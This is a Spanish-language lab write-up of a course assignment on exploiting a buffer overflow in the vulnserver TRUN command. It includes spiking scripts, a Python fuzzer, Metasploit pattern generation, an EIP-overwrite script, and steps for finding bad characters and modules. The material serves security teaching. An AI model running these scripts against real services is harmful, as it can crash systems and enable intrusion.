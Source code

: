 ```yaml
---
title: Buffer Overflow - Tarea 3
date: 2024-11-04 00:19:00 -05:00
categories: [Buffer Overflows Exploitation Techniques]
tags: [Cybersecurity Ethical Hacking]  # TAG names should always be lowercase
---
```


## **Desbordamiento de Búfer** ##

*Proceso de Spiking*
*El spiking es un método que se utiliza para identificar partes vulnerables en un programa. El objetivo es enviar grandes cantidades de datos a un comando específico y ver si se produce un desbordamiento del búfer, lo que resultaría en un fallo o un bloqueo del programa. Si el programa falla, se identifica esa parte como vulnerable. Si no, se pasa al siguiente comando.*

*En este caso, el servidor vulnerable escucha en el puerto 9999, y los comandos válidos se pueden ver escribiendo HELP una vez conectado al servidor usando Netcat. Entre los comandos listados, el comando TRUN será el foco, ya que es vulnerable a un desbordamiento de búfer.*

```bash
$ nc IP_del_servidor_Windows 9999
```

![cd](/assets/images/tarea1.png)

*servicio corriendo*

*Se debe guardar cada script con un nombre descriptivo, como stats.spk o trun.spk. Luego, se ejecuta Generic Send TCP con los parámetros adecuados para enviar los datos.*

```bash
s_readline();
s_string("STATS ");
s_string_variable("0");
```

```bash
s_readline();
s_string("TRUN ");
s_string_variable("0");
```
![cd](/assets/images/tarea3.png)

*Se debe guardar cada script con un nombre descriptivo, como stats.spk o trun.spk. Luego, se ejecuta Generic Send TCP con los parámetros adecuados para enviar los datos.
generic_send_tcp 10.0.2.15 9999 trun.spk 0 0*

```bash
Fuzzing Variable 0:68
Variablesize= 1024
Fuzzing Variable 0:69
Variablesize= 1023
Fuzzing Variable 0:70
Variablesize= 512
```
**Generic --> STATS**
```bash
generic_send_tcp 192.168.18.11 9999 lspiking_stats.spk 0 0
```
![cd](/assets/images/tarea4.png)

**Si el programa es vulnerable, el vulnserver se detendrá.**

![cd](/assets/images/tarea5.png)

**Generic --> TRUN**
```bash
generic_send_tcp 192.168.18.11 9999 lspiking_trun.spk 0 0
```

## **FUZING** ##

*Desarrollo del Fuzzing*
Para realizar el fuzzing, se ha construido un script en Python. El objetivo de este script es enviar grandes cantidades de datos al comando TRUN para identificar en qué punto se produce un fallo en el servidor.

```bash
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100
ip_address = '192.168.0.12'

while True:
    try:
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((ip_address,9999))
        s.send(('TRUN /.:/' + buffer).encode(`utf-8`))
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
    except:
        print("Fuzzing crash en %s bytes " % str(len(buffer)) )
        sys.exit()
```
![cd](/assets/images/tarea6.PNG)

**Ejecución del Script**
Una vez guardado el script en un archivo (por ejemplo, fuzzing.py), se le deben otorgar permisos de ejecución con el siguiente comando en Kali Linux:

```bash
chmod +x fuzzing.py
```

```bash
./fuzzing.py
```

![cd](/assets/images/tarea7.PNG)

## **Encontrando el Offset** ##

**Creación del Patrón**
Primero, se debe generar un patrón cíclico de aproximadamente 3000 bytes, ya que en el fuzzing previo se identificó que el servidor vulnerable colapsaba con buffers de alrededor de 2700 bytes. Para esto, ejecutamos el siguiente comando en la terminal de Kali Linux:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```
![cd](/assets/images/tarea8.png)

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2800
```
![cd](/assets/images/tarea9.png)


## **Sobrescribiendo el EIP** ##

Modificación del Script

Primero, es necesario modificar el script que se utilizó previamente para encontrar el offset. En este caso, se reemplaza el código que se utilizó para calcular el offset con un payload que contenga los datos para sobrescribir el EIP. El proceso consiste en lo siguiente:

Abrir el script anterior en un editor de texto, como gedit.
Eliminar la variable de offset utilizada previamente, ya que ahora se procederá a enviar datos controlados directamente para sobrescribir el EIP.
En lugar del offset, se utilizará un código que envía 2003 bytes de “A” seguidos de 4 bytes de “B”. Esto se hace para verificar que el EIP se sobrescribe correctamente con los valores deseados. En términos de bytes, las “A” representan el valor 0x41 y las “B” el valor 0x42.

```bash
import sys, socket
from time import sleep

shellcode = "A" * 2003 + "B" * 4  # caracter "A" 2003 veces seguido de 4 caracters "B"
ip_address = '192.168.0.12'

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 9999))
    s.send(('TRUN /.:/' + shellcode).encode('utf-8'))
    s.close()
except:
    print("Error al conectar con el servidor")
    sys.exit()
```
![cd](/assets/images/tarea10.png)

```bash
./finding-offset.py
ls -lh finding-offset.py 
chmod +x finding-offset.py
 ls -lh finding-offset.py
 ```
![cd](/assets/images/tarea11.png)

Modificación del Script
Para comenzar, es necesario modificar el script que sobrescribió el EIP en la etapa anterior, agregando una secuencia de todos los caracteres hexadecimales posibles (exceptuando el byte nulo, que se conoce como problemático). Esta secuencia se añadirá después de los bytes que sobrescriben el EIP.

## **Identificando Caracteres Malos** ##

El script modificado debería verse así:

![cd](/assets/images/tarea12.png)

## **Buscando el módulo vulnerable** ##

En este caso, vamos a ayudarnos del mona modules.
Colocar el archivo mona.py en C:\Program Files(x86)\Immunity Inc\Immunity Debugger\PyCommands:
En el Immunity Debugger, ejecutar !mona modules en el prompt de comandos.

![cd](/assets/images/tarea13.png)
![cd](/assets/images/tarea14.png)
